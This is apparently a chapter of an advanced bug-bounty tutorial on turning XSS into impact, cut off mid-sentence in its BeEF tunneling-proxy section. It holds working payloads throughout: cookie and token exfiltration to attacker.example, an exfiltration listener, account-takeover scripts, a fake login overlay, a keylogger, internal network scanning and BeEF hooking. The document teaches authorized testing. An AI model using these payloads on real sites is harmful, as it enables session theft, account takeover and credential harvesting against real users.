







**Level:** Advanced · **Track:** Bug Bounty & AppSec · **Read time:** 255 min

This is Chapter 3 of the Client-Side notebook — Notebook 24. The first two chapters were
about *finding* Cross-Site Scripting: Chapter 1 built the model for Reflected and Stored XSS
where the server echoes your payload, and Chapter 2 went after DOM-based XSS, mutation XSS,
and sanitiser bypass — the variants that never touch the response body. By the end of those
chapters you could land script execution in a victim's browser and prove it with the classic
`alert(document.domain)`.

This chapter is about what comes *after* the alert box. A popup proves the browser ran your
JavaScript; it does not, by itself, tell a program owner or a client why they should care.
Weaponization is the discipline of converting that script-execution primitive into concrete,
demonstrable impact: stealing a session, taking over an account, harvesting credentials,
reading data the victim can see, forging state-changing requests as the victim, and — with a
control framework like BeEF — using the hooked browser as a foothold to reach systems the
attacker cannot touch directly. We build all of that from first principles, then teach BeEF
from zero and wire everything together in a reproducible lab.

Everything here assumes an **authorized** context: a lab you own, a bug-bounty program whose
scope explicitly permits it, or a client engagement with a signed statement of work. XSS
weaponization runs code in a real person's browser and can touch real sessions and real data.
The recurring rule in this chapter is **prove impact with the least intrusive artifact that
is still convincing** — a redacted session ID, a screenshot of your own test account taken
over, a single benign request forged as the victim — never mass exploitation, never a real
user's data, never persistence you cannot cleanly remove.

## Part 1: From `alert(1)` to Impact — The Weaponization Mindset

An XSS vulnerability gives you one thing: the ability to run JavaScript in the security
context (the *origin*) of the vulnerable page, in the browser of whoever loads your payload.
That is a deceptively large amount of power, and the whole of weaponization follows from
understanding exactly what "run JavaScript in this origin" lets you do.

When your script runs inside `https://bank.example`, the browser treats it as if the site's
own developers wrote it. It can:

- Read any cookie for that origin **that is not marked `HttpOnly`**, via `document.cookie`.
- Read and write the DOM — every field, every token embedded in the page, every bit of
  personal data currently rendered.
- Read `localStorage` and `sessionStorage` for the origin (where many SPAs park JWTs and API
  keys).
- Make same-origin `fetch`/`XMLHttpRequest` calls that automatically carry the victim's
  cookies, so it can hit authenticated API endpoints *as the victim* and read the responses —
  the Same-Origin Policy permits reading same-origin responses.
- Issue cross-origin requests (it cannot read the responses, but it can *send* them — the
  basis of forging state-changing actions).
- Register event listeners: capture keystrokes, form submissions, clipboard events.
- Rewrite the page arbitrarily: inject a fake login form, a fake "session expired" modal, a
  fake payment screen.

That list is the weaponization menu. Which item you reach for depends on the target and on
what constitutes convincing proof for the audience.



**Bug-bounty relevance:** triage teams pay for *demonstrated* impact, not for `alert(1)`.
A report that shows "reflected XSS on `/search`" with a popup often lands as Medium or gets
duped; the same bug with a clean PoC that exfiltrates the reporter's own session cookie to a
listener they control, or performs a one-click email change on a test account, routinely
moves to High or Critical. The vulnerability is identical — the *narrative of impact* is what
changes the payout. That narrative is exactly what this chapter teaches you to build safely.

**The prime directive of weaponization:** the payload should do the *minimum* needed to prove
the *maximum* honest impact. If you can prove account takeover by changing the email on your
own second test account, you never need to touch anyone else. If you can prove session theft
by sending *your own* cookie to your listener, you never exfiltrate a real user's. We return
to this constraint at every step.

## Part 2: The Session — What You're Actually Stealing

Almost every high-value XSS exploit comes back to the **session**: the mechanism by which a
web app remembers that *this* browser already authenticated. HTTP is stateless — each request
stands alone — so the app hands the browser a secret after login and the browser presents it
on every subsequent request. Steal or ride that secret and you *are* the user, no password
required. To weaponize XSS you have to know precisely where that secret lives, because that
dictates whether you can exfiltrate it or must ride it in place.

There are three common places the session secret lives, and they behave very differently
under XSS:

| Session mechanism | Where it lives | Readable by JS? | XSS strategy |
|---|---|---|---|
| Cookie **without** `HttpOnly` | `document.cookie` | Yes | Exfiltrate the cookie; replay from attacker browser |
| Cookie **with** `HttpOnly` | HTTP cookie jar only | **No** | Can't read it — ride the session in-browser via `fetch` |
| Token in `localStorage`/`sessionStorage` (SPA/JWT) | Web Storage | Yes | Read `localStorage.getItem('token')`; exfiltrate |
| Token in a JS variable / memory (in-memory auth) | Page scope | Sometimes | Read via DOM/JS if reachable; else ride in-browser |

The single most important control here is the **`HttpOnly`** cookie flag. When a cookie is set
with `HttpOnly`, the browser refuses to expose it to `document.cookie`. JavaScript simply
cannot read it — `document.cookie` returns an empty string or only the non-`HttpOnly` cookies.
This is the wall that separates "grab the cookie and go" from "you have to do everything from
inside the victim's browser."

```mermaid
sequenceDiagram
    participant V as Victim Browser
    participant A as App (bank.example)
    V->>A: POST /login (user + pass)
    A-->>V: 200 + Set-Cookie: session=abc; HttpOnly; Secure; SameSite=Lax
    Note over V,A: Cookie stored in HTTP jar,<br/>invisible to document.cookie
    V->>A: GET /account (Cookie: session=abc)
    A-->>V: 200 account page
    Note over V: XSS payload runs here.<br/>document.cookie == "" for session.<br/>Must ride the session via fetch()
```

A crucial subtlety that beginners miss: **`HttpOnly` does not stop XSS from *using* the
session — it only stops XSS from *reading the cookie string*.** When your injected script
calls `fetch('/account/settings')`, the browser *still attaches the `HttpOnly` cookie
automatically*, because cookie attachment is done by the network stack, not by JavaScript.
So even against a perfectly `HttpOnly` cookie, XSS can make authenticated requests as the
victim and read the responses (same-origin). `HttpOnly` raises the bar from "trivial
exfil-and-replay" to "in-browser session riding" — it does not neutralize XSS. Anyone who
tells you `HttpOnly` "fixes" XSS impact has misunderstood the boundary. We exploit both cases
below.

## Part 3: Cookie & Token Theft — The Classic Exfiltration

Start with the simplest weaponization: the session lives in a cookie *without* `HttpOnly`, or
in web storage. Here JavaScript can read the secret directly, so the exploit is "read it, ship
it to a server I control, replay it."

### 3.1 The exfiltration primitive

The core move is to take a secret readable in JS and get it off the victim's machine to a
server the attacker controls. Every exfil technique is a variation on "cause the browser to
make a request whose URL or body carries the secret." The classic one-liner:

```javascript
new Image().src = "https://attacker.example/c?d=" + encodeURIComponent(document.cookie);
```

Why an `Image()` and not a `fetch`? Three reasons, and understanding them teaches the
mechanics:

1. **It fires cross-origin without CORS friction.** Loading an image is a "simple" cross-origin
   request that the browser will *send* freely; you never read the response, so the
   Same-Origin Policy's read restriction and CORS preflight are irrelevant.
2. **It is fire-and-forget and near-silent.** No promise to await, no console error if the
   endpoint returns 404 — the pixel just fails to render, which is invisible in a payload that
   is already off-screen.
3. **It survives page unloads better than an async `fetch`** in some contexts, because the
   request is kicked off synchronously by assignment to `.src`.

`encodeURIComponent` is essential: cookies contain `;`, `=`, and sometimes `+` or `/`, all of
which would corrupt the query string or be mis-decoded on the server if not percent-encoded.
Encode every value you smuggle into a URL.

Equivalent modern variants:

```javascript
// fetch with keepalive — survives the tab closing, POST body avoids URL-length limits
fetch("https://attacker.example/c", {
  method: "POST",
  mode: "no-cors",            // we don't need to read the response
  keepalive: true,            // let it complete even if the page is navigating away
  body: JSON.stringify({
    cookie: document.cookie,
    ls: {...localStorage},    // sweep web storage too (JWTs, API keys)
    url: location.href,
    ua: navigator.userAgent
  })
});

// navigator.sendBeacon — purpose-built for exfil-on-unload, non-blocking
navigator.sendBeacon("https://attacker.example/c", document.cookie);
```

**Why sweep `localStorage` as well as `document.cookie`?** Modern SPAs frequently store the
real auth token (a JWT or opaque bearer token) in `localStorage` or `sessionStorage` rather
than a cookie, precisely because "cookies are the CSRF risk." But web storage is fully readable
by any script in the origin, so moving the token there *trades a CSRF risk for a total-theft
XSS risk*. From a weaponization standpoint, a token in `localStorage` is the softest possible
target: `JSON.stringify(localStorage)` grabs everything in one line.

### 3.2 The listener that catches it

You need a server to receive the exfil. In a lab, a dozen lines of Python is enough. Teaching
this from scratch:

```python
#!/usr/bin/env python3
# exfil_listener.py — minimal collector for AUTHORIZED lab/bounty PoC use only.
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse, parse_qs
import datetime

class H(BaseHTTPRequestHandler):
    def _log(self, data):
        ts = datetime.datetime.now().isoformat()
        print(f"[{ts}] {self.client_address[0]} -> {data}")
        with open("loot.log", "a") as f:
            f.write(f"{ts}\t{self.client_address[0]}\t{data}\n")

    def do_GET(self):
        q = parse_qs(urlparse(self.path).query)
        self._log(q.get("d", [""])[0])       # the ?d= from the Image() trick
        # 1x1 transparent GIF so the  "loads" and nothing looks broken
        gif = bytes.fromhex("47494638396101000100800000ffffff00000021f90401000000002c00000000010001000002024401003b")
        self.send_response(200)
        self.send_header("Content-Type", "image/gif")
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()
        self.wfile.write(gif)

    def do_POST(self):
        n = int(self.headers.get("Content-Length", 0))
        self._log(self.rfile.read(n).decode("utf-8", "replace"))
        self.send_response(204)              # No Content
        self.send_header("Access-Control-Allow-Origin", "*")
        self.end_headers()

if __name__ == "__main__":
    HTTPServer(("0.0.0.0", 8000), H).serve_forever()
```

Run it with `python3 exfil_listener.py`; it prints and appends every hit to `loot.log`. The
`Access-Control-Allow-Origin: *` header keeps a `mode:'cors'` `fetch` from erroring in the
console, though `no-cors` avoids needing it. The 1×1 GIF is returned so the `new Image()`
technique renders "successfully" and leaves no broken-image trace.

**Non-destructive-proof rule in practice:** in a real engagement you point this at *your own*
test session. The screenshot for the report shows *your* cookie arriving in *your* listener —
proving the exfil path works end-to-end — with no real user ever involved. If a program's
rules require it, redact the middle of the token in the screenshot; the arrival itself is the
proof.

### 3.3 Turning a stolen cookie back into a session

Once the cookie or token is in `loot.log`, replaying it is trivial and worth showing so you
understand *why* theft equals takeover:

```bash
# Replay a stolen cookie directly with curl to confirm it authenticates:
curl -s https://bank.example/account -H "Cookie: session=abc123..." | grep -i "welcome"

# Or inject it into a fresh browser profile via devtools console on the target origin:
document.cookie = "session=abc123...; path=/";
# then reload — you are now logged in as the victim
```

If the cookie is valid and the app has no secondary binding (see Part 12), the server cannot
distinguish your replayed request from the victim's own. That is the whole game: the session
identifier *is* the identity.

## Part 4: When `HttpOnly` Blocks You — Riding the Session In-Browser

Now the harder and more common modern case: the session cookie is `HttpOnly`, so
`document.cookie` never yields it. Novices give up here and file a Medium. Senior testers
recognize that they don't need the cookie *string* — they have something better: code running
in the origin, with the browser attaching the cookie to every request automatically.

The strategy flips from *exfiltrate the credential* to *perform the sensitive action from
inside the victim's browser and exfiltrate the result*. Your JavaScript becomes a tiny
authenticated client.



### 4.1 Reading authenticated data as the victim

```javascript
// Running inside the vulnerable origin via XSS. The HttpOnly cookie rides along automatically.
fetch("/api/account/profile", { credentials: "same-origin" })
  .then(r => r.text())
  .then(body => {
    // body contains the victim's email, name, address, maybe an API token
    navigator.sendBeacon("https://attacker.example/c", body);
  });
```

`credentials: "same-origin"` (the default for same-origin requests) ensures cookies are sent.
Because the request is same-origin, the Same-Origin Policy *permits reading the response* — so
you can pull the victim's profile, order history, messages, whatever the API exposes to an
authenticated session, and forward it to your listener. The `HttpOnly` flag never mattered:
you read the *data*, not the *cookie*.

### 4.2 Stealing the CSRF token to forge state changes

Most sensitive actions (change email, change password, transfer funds) are protected by an
anti-CSRF token — a per-session or per-request secret that a cross-site attacker cannot guess.
But your code is running *inside the origin*, not cross-site: you can simply **read the CSRF
token out of the page or fetch it from an endpoint**, then include it in a forged request. XSS
defeats CSRF protection because the token was only ever secret to *other origins*.

```javascript
// 1. Fetch the settings page and scrape the anti-CSRF token out of it.
fetch("/account/settings", { credentials: "same-origin" })
  .then(r => r.text())
  .then(html => {
    const token = new DOMParser()
      .parseFromString(html, "text/html")
      .querySelector('input[name="csrf_token"]').value;

    // 2. Submit a forged, authenticated, CSRF-valid request as the victim.
    return fetch("/account/change-email", {
      method: "POST",
      credentials: "same-origin",
      headers: { "Content-Type": "application/x-www-form-urlencoded" },
      body: "csrf_token=" + encodeURIComponent(token) +
            "&email=" + encodeURIComponent("attacker+pwn@evil.example")
    });
  })
  .then(() => navigator.sendBeacon("https://attacker.example/c", "email-changed"));
```

This is **full account takeover without ever seeing the password or the cookie**: change the
email to one you control, trigger a password reset, own the account. It is the single most
impactful and most report-worthy XSS weaponization, and it works cleanly through `HttpOnly`,
`SameSite`, and CSRF tokens simultaneously — because all three defend against *cross-origin*
attackers, and XSS makes you a *same-origin* attacker.

**Bug-bounty relevance:** "Reflected XSS → one-click account takeover" is a canonical
Critical. The write-up performs the email/password change on *your own second test account*,
screenshots the before/after and the confirmation email arriving at your address, and states
plainly that no other user was touched. That is maximal impact with zero collateral.

### 4.3 The self-contained ATO payload

Real payloads are packed into a single line or loaded from an external script. The clean
pattern is a tiny bootstrapper that pulls the real logic from your server, so you can iterate
without re-triggering the injection:

```html
<script src="https://attacker.example/x.js"></script>
```

```javascript
// x.js — the actual weaponized logic, kept off the target so it's easy to update
(async () => {
  const settings = await (await fetch("/account/settings", {credentials:"same-origin"})).text();
  const doc = new DOMParser().parseFromString(settings, "text/html");
  const csrf = doc.querySelector('[name="csrf_token"]').value;
  await fetch("/account/change-email", {
    method: "POST", credentials: "same-origin",
    headers: {"Content-Type": "application/x-www-form-urlencoded"},
    body: `csrf_token=${encodeURIComponent(csrf)}&email=attacker%2Bpwn%40evil.example`
  });
  navigator.sendBeacon("https://attacker.example/done", location.host);
})();
```

Loading external script this way also matters for **CSP**: if the app has a Content-Security-
Policy that blocks inline script but allows script from some host, your bootstrapper must come
from an allowed source (a bypass we cover in Chapter 2's CSP work and revisit in Part 12).

## Part 5: Credential Harvesting — Phishing Inside the Real Origin

Session theft rides an existing login. Sometimes you want the *password* itself, or the victim
isn't currently authenticated. Because your script controls the DOM of the *legitimate* origin,
you can present a login prompt that is genuinely served from the real domain, with the real
URL and real TLS padlock — the most convincing phishing possible, because it isn't a lookalike
domain at all. This is why XSS on a login-adjacent page is so dangerous.

### 5.1 The fake-login overlay

```javascript
// Replace the page with a pixel-perfect login form served from the REAL origin.
document.body.innerHTML = `
  <div style="max-width:360px;margin:80px auto;font-family:sans-serif">
    <h2>Session expired — please sign in again</h2>
    <form id="f">
      <input name="u" placeholder="Username" style="display:block;width:100%;margin:8px 0;padding:8px">
      <input name="p" type="password" placeholder="Password" style="display:block;width:100%;margin:8px 0;padding:8px">
      <button style="width:100%;padding:10px">Sign in</button>
    </form>
  </div>`;
document.getElementById("f").addEventListener("submit", e => {
  e.preventDefault();
  const u = e.target.u.value, p = e.target.p.value;
  navigator.sendBeacon("https://attacker.example/c", `${u}:${p}`);
  // Then bounce to the real login so the victim just thinks they mistyped.
  location.href = "/login";
});
```

What makes this work psychologically is context: the address bar shows the real domain, the
certificate is valid, and a "session expired, please re-authenticate" prompt is something users
see legitimately all the time. Traditional anti-phishing advice ("check the URL") fails here
because the URL is correct. The only real defenses are password managers (which refuse to
autofill because the *DOM structure* changed, a subtle tell) and not having the XSS at all.

**Blue-team note:** enterprise password managers and browser credential managers that key on
form-field metadata can act as a tripwire here — if a manager that normally autofills this site
suddenly won't, that is a weak signal something rewrote the form. It is not a control you can
rely on, but it is worth knowing as a detection angle.

### 5.2 Keylogging and form capture

You don't need to replace the page to steal what the user types. A global keystroke or
form-submit listener quietly captures input on the real page:

```javascript
// Buffer keystrokes and flush periodically to avoid one-request-per-key noise.
let buf = "";
document.addEventListener("keydown", e => {
  buf += e.key.length === 1 ? e.key : `[${e.key}]`;
  if (buf.length > 40) { navigator.sendBeacon("https://attacker.example/k", buf); buf = ""; }
});
// Or capture on submit — cleaner, grabs the full field values including autofilled passwords.
document.addEventListener("submit", e => {
  const data = new FormData(e.target);
  navigator.sendBeacon("https://attacker.example/k", new URLSearchParams(data).toString());
}, true);   // capture phase, so we see it before the app's own handler
```

The capture-phase (`true`) listener on `submit` is the elegant one: it fires before the
application's handler, sees every field including password managers' autofilled values, and
serializes the whole form in one shot.

## Part 6: The Browser as a Pivot — Reaching What You Can't Touch Directly

The most under-appreciated weaponization is that a hooked browser is a *network position*. The
victim's browser may sit inside a corporate network, behind a VPN, or simply be authenticated
to internal apps the attacker can't reach from the outside. Your JavaScript runs *there*, so it
can make requests *from there*.

Same-origin policy restricts what responses you can *read* cross-origin, but you can still:

- **Fingerprint reachable internal hosts** by timing image/script loads to internal IPs.
- **Send state-changing requests to internal apps** the victim is authenticated to (blind
  CSRF from inside the perimeter).
- **Read cross-origin responses that the target explicitly CORS-allows**, which internal
  microservices often do carelessly (`Access-Control-Allow-Origin: *` with credentials
  misconfigurations).

```javascript
// Naive internal host discovery via load timing (works even though responses aren't readable).
["10.0.0.1","10.0.0.2","192.168.1.1"].forEach(ip => {
  const t0 = performance.now();
  const img = new Image();
  img.onerror = () => {
    const dt = performance.now() - t0;   // fast error ~= host up (RST), slow ~= filtered/down
    navigator.sendBeacon("https://attacker.example/scan", `${ip}:${dt.toFixed(0)}`);
  };
  img.src = `http://${ip}/favicon.ico?` + Math.random();
});
```

This is inherently noisy and unreliable, which is exactly why frameworks exist to do it
properly — enter BeEF, which packages hooking, C2, recon, and pivoting into one tool. The rest
of the chapter builds it from scratch.

## Part 7: BeEF From Scratch — What It Is and Why It Exists

**BeEF** — the **B**rowser **E**xploitation **F**ramework — is an open-source penetration-
testing tool that treats the web browser as the target and the delivery point. Where Metasploit
manages *shells on hosts*, BeEF manages *hooked browsers*. It was created to demonstrate,
concretely and interactively, the real-world impact of client-side flaws like XSS: instead of
arguing that "XSS is serious," a tester hooks a browser into BeEF and drives dozens of ready
modules — steal cookies, fingerprint the browser and plugins, launch social-engineering
dialogs, port-scan the internal network, tunnel HTTP through the victim — from a point-and-
click control panel.

### 7.1 The architecture

BeEF has three moving parts:

| Component | What it is | Role |
|---|---|---|
| **`hook.js`** | A JavaScript payload served by BeEF | Runs in the victim browser; establishes and maintains the command channel |
| **BeEF server** | A Ruby application (Sinatra-based) | Serves `hook.js`, runs the C2 logic, exposes the admin UI and RESTful API |
| **Admin UI / RESTful API** | Web panel on `http://127.0.0.1:3000/ui/panel` | Where the operator sees hooked browsers and launches modules |

The heart of it is the **hook**. When your XSS loads `hook.js` into a victim's page, that script
"hooks" the browser: it opens a persistent polling channel back to the BeEF server, registers
the browser as **online**, and thereafter fetches commands, executes them in the page, and
returns results. A hooked browser is called a **zombie** in BeEF's terminology.



### 7.2 Installing BeEF on Kali

BeEF ships in Kali's repositories. Teaching the install and first-run from zero:

```bash
# Install (present on many Kali builds already; this ensures it):
sudo apt update && sudo apt install -y beef-xss

# Launch it — first run prompts you to set the admin password:
sudo beef-xss
```

On first launch it forces you to change the default `beef:beef` credentials (older versions
shipped that default and were themselves trivially attackable — never leave it). It then prints
the key URLs:

```text
[*] Please wait for the BeEF service to start.
[*] You might need to refresh your browser once it opens.
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook:   <script src="http://127.0.0.1:3000/hook.js"></script>
[*]  Example: <script src="http://<IP>:3000/hook.js"></script>
[+] BeEF is loading. Wait a few seconds...
```

Two URLs matter:

- **The hook**: `http://<BeEF-IP>:3000/hook.js` — this is what your XSS payload must load into
  the victim. In a real (authorized) scenario the IP is a host the victim can reach; on
  localhost labs it's `127.0.0.1`.
- **The panel**: `http://127.0.0.1:3000/ui/panel` — the operator console. Log in with the
  password you set.

The main config lives at `/etc/beef-xss/config.yaml` (or `config.yaml` in the source tree),
where you set the admin credentials, bind host/port, and toggle extensions.

### 7.3 The hooking payload

Delivering the hook *is* the XSS payload — everything from Chapters 1–2 applies. Any of these,
placed in an injectable context, hooks the browser:

```html
<!-- Direct script include (needs CSP to allow the BeEF host, or no CSP) -->
<script src="http://192.168.56.10:3000/hook.js"></script>

<!-- Dynamically injected, useful when you only control a JS sink -->
<script>
  var s = document.createElement("script");
  s.src = "http://192.168.56.10:3000/hook.js";
  document.body.appendChild(s);
</script>
```

Once loaded, the browser appears in the panel's **Online Browsers** tree within a second or
two, tagged with its domain, IP, browser, and OS.

## Part 8: Driving BeEF — Zombies, the Command Tree, and Module Ratings

In the admin UI, hooked browsers appear in a left-hand tree split into **Online Browsers** and
**Offline Browsers**, grouped by the origin they were hooked in. Select a zombie and you get
tabs: **Details** (a rich fingerprint — browser, version, plugins, OS, screen size, whether it
has a webcam, Java/Flash, cookies visible), **Logs**, **Commands**, **Rider**, **XssRays**,
**Network**, and **WebRTC**.

The **Commands** tab is the module catalogue — hundreds of modules organized by category. BeEF
colour-codes each module by how likely it is to work and how visible it is to the victim:

| Indicator | Meaning |
|---|---|
| 🟢 Green | Works against this target and is **invisible** to the user |
| 🟠 Orange | Works but is **visible** to the user (a dialog pops, a redirect happens) |
| ⚪ Grey | Not yet verified against this target (may still work) |
| 🔴 Red | Does **not** work against this target |

That rating system is a practical exploitation aid: a green "Get Cookie" is a free, silent win;
an orange "Pretty Theft" (fake login dialog) works but the victim sees it. Categories you'll
reach for most:

- **Browser** → *Get Cookie*, *Get Local Storage*, *Get Page HTML*, *Webcam* (permission-gated),
  *Detect Popup Blocker*.
- **Social Engineering** → *Pretty Theft* (fake login overlays for Facebook, LinkedIn, generic
  "session expired"), *Fake Notification Bar*, *Clippy*, *Fake Flash Update* (delivers a payload
  masquerading as an update).
- **Network** → *Ping Sweep*, *Port Scanner*, *DNS Enumeration* — the internal-recon pivot from
  Part 6, done properly.
- **Host** → *Get System Info*, *Detect Virtual Machine*, *Make Screenshot* (where supported).
- **Exploits / Misc** → a large set including router CSRF exploits and the *Tunneling Proxy*.



**Persistence in BeEF** is worth understanding: the hook only lives as long as the hooked page
is open. BeEF's persistence modules fight this — the **Man-In-The-Browser** module hooks link
clicks and form submits so navigation stays within a hooked context (it silently AJAX-loads the
next page instead of a full navigation, keeping the hook alive), and **Confirm Close** nags the
user with a beforeunload prompt. On engagements you note the ephemerality honestly: a closed tab
ends the session.

## Part 9: The BeEF Tunneling Proxy — Turning a Tab into a Pivot

The single most powerful BeEF capability for real impact is the **Tunneling Proxy**. It turns
the hooked browser into an HTTP proxy that *you* drive from your own tools. Every request you
send through it is issued *by the victim's browser, in the victim's origin, with the victim's
cookies* — so you can browse the authenticated application manually, through Burp, *as the
victim*, in real time.

Mechanically: BeEF exposes a local proxy endpoint (default `http://127.0.0.1:6789`). You
configure Burp or your browser to use it, and BeEF relays your requests to the hooked browser,
which fetches them same-origin and returns the responses to you. Because the fetches originate
in the victim's page, `HttpOnly` cookies, `SameSite` restrictions, and CSRF tokens are all
satisfied automatically — the victim's own browser is making the request.



To use it: right-click the zombie in the panel and choose **Use as Proxy**, then point Burp's
upstream proxy (or `curl -x`) at `127.0.0.1:6789`. Now every page you request in Burp is
fetched by the victim, letting you crawl the authenticated app, hit sensitive endpoints, and
